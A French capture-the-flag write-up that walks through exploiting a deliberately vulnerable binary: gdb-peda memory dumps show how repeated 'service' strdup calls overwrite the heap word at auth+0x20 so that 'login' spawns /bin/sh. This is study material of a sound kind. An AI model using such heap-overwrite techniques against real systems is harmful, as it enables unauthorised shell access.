 L'executable ecoute sur le stdin et affiche (nil), (nil).
Si on l'observe avec gdb on remarque qu'il y a une boucle et dans celle ci:
printf 2 adresse de 2 variable ( auth et service )
Ensuite fgets est utiliser pour ecouter sur le stdin
puis le retour est comparer a des strings afin d'executer la liste d'instruction associer a la string envoyer en stdin
En regardant les str utiliser pour les comparer a notre input nous en avons 4
auth / reset / service / login

si notre input commence par auth:
un malloc est creer pour pouvoir ensuite copier la chaine dans notre variable auth via un strcpy.

reset:
Va appeler la fonction free sur notre variable auth

service:
va utiliser strdup afin de copier notre chaine pour la stocker en memoire

login:
va comparer si a 0x8049aac ( auth var ) = l'adresse stocker en memoire pour notre string auth + un offset de 0x20 est = 0 ( donc si notre adresse en memoire est 0x804a008 alors login regardera a l'emplacement 0x804a028 )
Il est important que la variable auth soit initialiser sinon notre l'executable crash. 
Si c'est 0 alors la fonction reboucle sinon un appel system est lancer avec comme argument /bin/sh

Le probleme dans cet executable est que si auth est declarer dans un premier temps et que ensuite service est utiliser derriere on peux voir que les 2 adresses se suivent en memoire. Sachant que la variable service n'est jamais free on peut creer plusieur chaine en memoire grace au strdup.
Donc si on essaie de stocker auth puis de stocker 2 adress apres via le strdup de service on peux logiquement ecrire a l'emplacement auth+0x20
car dans notre cas chaque appel a strdup va ecrire 0x10 plus loin que notre premier appel a malloc.

voici une trace de la memoire apres un appel a auth avec ("auth test")
gdb-peda$ x/16xw 0x804a008
0x804a008:	0x74736574	0x0000000a	0x00000000	0x00020ff1
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000

0x804a008 etant l'adresse renvoyer par le printf nous indiquant l'emplacement en memoire de notre string

pour rappel login va verifier si "0x804a028:      0x00000000" vaut 0

maintenant si on utilisee service avec ("service ok") la memoire ressemble a
gdb-peda$ x/16 0x804a008
0x804a008:	0x74736574	0x0000000a	0x00000000	0x00000011
0x804a018:	0x0a6b6f20	0x00000000	0x00000000	0x00020fe1
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000

On voit clairement que les chaines se suivent et si on continue une nouvelle fois avec service
gdb-peda$ x/16 0x804a008
0x804a008:	0x74736574	0x0000000a	0x00000000	0x00000011
0x804a018:	0x0a6b6f20	0x00000000	0x00000000	0x00000011
0x804a028:	0x0a6b6f20	0x00000000	0x00000000	0x00020fd1
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000

Ici "0x804a028:      0x0a6b6f20" Donc "0x804a008+0x20" ne vaut plus 0 et on peut maintenant essayer d'utiliser login pour avoir notre shell
